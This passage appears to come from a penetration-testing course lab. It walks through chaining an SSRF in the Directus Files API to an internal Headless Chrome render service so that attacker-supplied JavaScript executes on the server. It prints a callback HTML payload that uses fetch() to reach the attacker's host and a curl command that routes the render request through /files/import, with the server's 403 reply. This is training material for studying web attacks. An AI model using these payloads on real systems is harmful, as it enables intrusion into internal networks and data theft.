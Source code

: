 When we exploited the SSRF in the Directus Files API, the user agent was axios. Now that we can call the Render API through the SSRF vulnerability, we can make an instance of Headless Chrome access a URL of our choice. Initially, this might seem like another SSRF vulnerability but Headless Chrome is essentially a full browser without a UI. The headless browser should still execute any JavaScript functions as it loads a web page. If it does, we have the ability to run arbitrary JavaScript from the browser that is running on the remote server, which would give us the ability to extract data from other internal pages or services, send POST requests, and interact with the other internal resources in many different ways.

Before we get ahead of ourselves, let's verify the headless browser will execute JavaScript. We will create a simple HTML page with a JavaScript function that runs on page load.

```
<html>
<head>
<script>
function runscript() {
    fetch("http://192.168.118.3/itworked");
}
</script>
</head>
<body onload='runscript()'>
<div></div>
</body>
</html>
```

> Listing 43 - Contents of hello.html

Since the application does not return the page loaded with the SSRF vulnerability, we need another way to determine if the browser executes JavaScript. Our JavaScript function uses _fetch()_ to make a call back to our Kali host. The _onload_ event in the body tag calls our function. After placing this file in our webroot, let's use the SSRF vulnerability to call the render service pointed at this file.

```
kali@kali:~$ curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://172.16.16.5:9000/api/render?url=http://192.168.118.3/hello.html"}' http://apigateway:8000/files/import
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
Content-Length: 102
Connection: keep-alive
X-Powered-By: Directus
Vary: Origin
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: Content-Range
ETag: W/"66-OPr7zxcJy7+HqVGdrFe1XpeEIao"
Date: Thu, 25 Feb 2021 18:14:42 GMT
X-Kong-Upstream-Latency: 1555
X-Kong-Proxy-Latency: 2
Via: kong/2.2.1

{"errors":[{"message":"You don't have permission to access this.","extensions":{"code":"FORBIDDEN"}}]}
```
